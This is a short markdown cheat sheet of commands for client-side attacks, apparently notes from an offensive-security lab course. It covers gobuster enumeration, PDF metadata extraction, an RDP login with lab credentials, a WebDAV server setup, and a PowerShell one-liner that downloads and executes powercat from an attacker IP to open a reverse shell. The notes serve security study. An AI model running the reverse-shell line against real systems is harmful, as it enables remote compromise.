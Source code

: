# 11.Client-Side attacks

| Categorie         | Commando                                                                                                                                   | Omschrijving                                  | Voorbeeld                                                                                 | Opmerkingen                                          |
|:------------------|:-------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------|:------------------------------------------------------------------------------------------|:-----------------------------------------------------|
| Gobuster enum     | gobuster -x                                                                                                                                | Use gobuster to search on file extensions     | gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt -x php,html,txt | nan                                                  |
| Extract meta data | exiftools -a -u brochure.pdf                                                                                                               | Extract metadata from a pdf                   | exiftools -a -u brochure.pdf                                                              | Could be usefull for version detection/username enum |
| xfreerdp sessions | xfreerdp /v:192.168.204.196 /u:offsec /p:lab /size:1280x720 /cert:ignore                                                                   | rdp session with a client                     | nan                                                                                       | nan                                                  |
| Revshell with PS  | IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.166/powercat.ps1');powercat -c 192.168.45.166 -p 4444 -e powershell | Reverse shell with powershell (shortcut link) | nan                                                                                       | nan                                                  |
| Set-up Webdav     | wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/                                                                | Setting up a webdav server                    | nan                                                                                       | nan                                                  |
